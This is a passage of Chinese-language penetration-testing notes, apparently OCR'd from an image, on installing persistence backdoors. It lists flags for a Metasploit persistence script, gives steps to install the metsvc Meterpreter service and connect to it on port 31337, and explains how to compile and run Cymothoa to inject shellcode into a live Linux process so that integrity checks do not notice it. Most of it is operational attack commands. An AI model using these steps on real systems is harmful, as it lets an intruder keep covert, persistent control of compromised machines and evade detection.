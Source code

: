 -S  系统启动时自动加载（具有SYSTEM权限）

-T  要使用的备用可执行模板

-U  用户登录时自动启动

-X  开机时自动加载

-h  这个帮助菜单

-i  回连的时间间隔(秒)

-p  监听反向连接端口号

-r  目标机器IP地址

#### 2.4 run metsvc的后门

目的：安装meterpreter服务
前提条件：服务器版本的系统
1、在meterpreter通道执行
	run metsvc -A
2、执行成功后，会在靶机上安装meterpreter服务，其该服务是自启动
3、监听

```
use exploit/multi/hander
set payload windows/metsvc_bind_tcp
set rhost 靶机的ip
set lport 31337——端口固定
exploit
```

#### 2.5 cymothoa后门

> Cymothoa是一款可以将shellcode注入现有进程(即插进程)的后门工具
> 即使目标系统的安全防护工具能够监视可执行程序的完整性，只要它不检测内存，就发现不了(插进程)后门程序的进程
> 该后门注入系统的某一进程，反弹的是该进程相应的权限(并不需要管理员)。当然，因为后门是以运行中的程序为宿主，所以只要进程关闭或者目标主机重启，后门就会停止运行

靶机：linux系统
1、获取shell，上传/下载cymothoa压缩包格式文件
2、解压 //tar -xzvf 
3、解压后进入文件夹，进行编译

gcc -o cymothoa cymothoa.c

Cymothoa的用法：

- ./cymothoa -p [执行宿主进程的pid] -s [执行shellcode的编号] -y [指定端口]

- ./cymothoa -S 可查看shellcode的编号列表

参数解释：

- p #用来指定需要注入的进程的 pid

- s #用来指定使用 shellcode 的序号

- y #用来指定反向 shell 的端口，即别人连接自己时需要连接的端口

​     运行后当出现 infected 即感染的意思则代表后门注入成功。
